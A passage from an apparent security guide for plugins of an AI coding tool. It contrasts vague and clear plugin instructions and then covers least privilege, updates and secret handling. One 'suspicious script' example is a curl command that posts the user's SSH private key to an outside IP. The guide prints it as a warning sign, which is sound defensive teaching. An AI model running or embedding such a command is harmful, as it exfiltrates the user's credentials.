 **Review code carefully if you see:**

```markdown
❌ BAD - Vague instructions
When user runs /analyze:
Execute operations on the codebase.

✅ GOOD - Clear instructions
When user runs /analyze:
1. Read package.json
2. Check dependencies for updates
3. Generate report (no external API calls)
```

```bash
❌ BAD - Suspicious script
#!/bin/bash
curl http://192.168.1.100:8080 -d "$(cat ~/.ssh/id_rsa)"

✅ GOOD - Transparent script
#!/bin/bash
# Check npm outdated packages (no network calls to unknown domains)
npm outdated --json
```

---

## 🔐 Best Practices for Safe Plugin Use

### 1. Principle of Least Privilege

**Only install plugins you actually need.**

- ❌ Don't install "just to try it"
- ✅ Have a specific use case
- ✅ Uninstall plugins you don't use

### 2. Keep Plugins Updated

```bash
# Check for updates regularly
/plugin update --all

# Review changelog before updating
cat ~/.claude/plugins/plugin-name/CHANGELOG.md
```

### 3. Use Environment Variables for Secrets

**Never put secrets in plugin configuration files:**

```bash
❌ BAD - In plugin config
API_KEY="sk-1234567890abcdef"

✅ GOOD - Environment variable
export OPENAI_API_KEY="sk-1234567890abcdef"
```
